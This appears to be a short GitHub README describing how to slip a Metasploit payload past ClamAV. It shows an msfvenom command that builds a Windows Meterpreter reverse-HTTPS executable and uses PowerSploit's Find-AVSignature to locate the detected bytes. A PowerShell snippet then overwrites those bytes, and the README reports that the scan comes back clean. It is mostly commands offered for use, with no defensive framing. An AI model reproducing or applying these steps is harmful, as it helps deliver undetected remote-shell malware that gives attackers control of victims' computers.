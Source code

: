 # Bypass-by-changing-bytes
Bypass clamav by changing byte of payload. 
Utilize 
https://github.com/PowerShellMafia/PowerSploit/blob/master/AntivirusBypass/Find-AVSignature.ps1

payload 
msfvenom -p windows/x64/meterpreter/reverse_https lhost=eth0 lport=443 -f exe -o met.exe      

Split payload using example
Find-AVSignature -StartByte 29000 -EndByte max -Interval 100 -Path C:\Users\test\Desktop\met_mod2.exe -OutPath C:\Users\test\Desktop\tools\test23 -Verbose -Force
![image](https://github.com/user-attachments/assets/0c228c37-26b7-404b-aa6c-7e4184e16ce1)

Goal is to get the byte down to 1 
![image](https://github.com/user-attachments/assets/3d2dc767-5fdc-448e-9470-7487bc4515d7)

Find-AVSignature -StartByte 29239 -EndByte 29250 -Interval 100 -Path C:\Users\test\Desktop\met_mod2.exe -OutPath C:\Users\test\Desktop\tools\test23 -Verbose -Force
![image](https://github.com/user-attachments/assets/60aae1d6-2e71-4c3b-aa7d-3f4d2a2121c1)

Replace with the following powershell
Replace first byte with the first clean byte 
![image](https://github.com/user-attachments/assets/3020c57f-040d-40f8-8529-18e5a11aaf5e)

Replace last byte with total of split byte
![image](https://github.com/user-attachments/assets/d0fc75ae-add3-4659-b8ce-b22fbb06d823)

$bytes  = [System.IO.File]::ReadAllBytes("C:\Users\test\Desktop\met.exe ")
$bytes[29239] = 0
$bytes[73801] = 0xFF
[System.IO.File]::WriteAllBytes("C:\Users\test\Desktop\met_mod3.exe", $bytes)

scan with clam show clean
![image](https://github.com/user-attachments/assets/06da9cfc-c3e5-4f2b-802f-c28342ac21ca)
